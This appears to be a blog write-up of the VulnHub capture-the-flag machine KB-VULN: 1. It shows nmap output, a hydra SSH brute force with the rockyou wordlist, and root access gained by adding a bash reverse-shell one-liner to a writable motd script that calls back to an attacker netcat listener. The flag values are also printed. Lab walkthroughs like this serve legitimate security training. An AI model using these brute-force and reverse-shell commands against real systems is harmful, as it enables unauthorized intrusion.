 ```yaml
---
title: "KB-VULN: 1 |  CTF Writeup"
description: "KB-VULN CTF Writeup vulnhub.com"
layout: post
---
```

{% highlight text %}
Machine Level : Easy
Description : ENUMERATION ENUMERATION and ENUMERATION! This VM is running on VirtualBox. And has 2 flags:user.txt and flag.txt.
{% endhighlight %}
You can find this VM [here](https://www.vulnhub.com/entry/kb-vuln-1,540/)

nmap service scan: 
{% highlight terminal %}
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}

Checking the web page source code showed me this comment:
{% highlight html %} 
<!-- Username : sysadmin -->
{% endhighlight %}

Running the username and the rockyou wordlist through hydra to bruteforce SSH:

{% highlight bash %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.106 -V

[22][ssh] host: 192.168.56.106   login: sysadmin   password: password1
{% endhighlight %}

Logging into SSH server and getting the first flag: 

{% highlight bash %}
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
{% endhighlight %}

There is a clue as to the files we can write as the sysadmin user in the ftp directory
{% highlight bash %}
sysadmin@kb-server:~/ftp$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
{% endhighlight %}

We just need to add the following oneliner to the script and set up a netcat listener: 
{% highlight bash %}
bash -c 'exec bash -i &>/dev/tcp/192.168.56.101/6666 <&1'
{% endhighlight %}
ATTACKER MACHINE: 
{% highlight bash %}
nc -lp 6666
{% endhighlight %}

{% highlight bash %}
root@kb-server:/root# cat flag.txt
cat flag.txt
1eedddf9fff436e6648b5e51cb0d2ec7
{% endhighlight %}
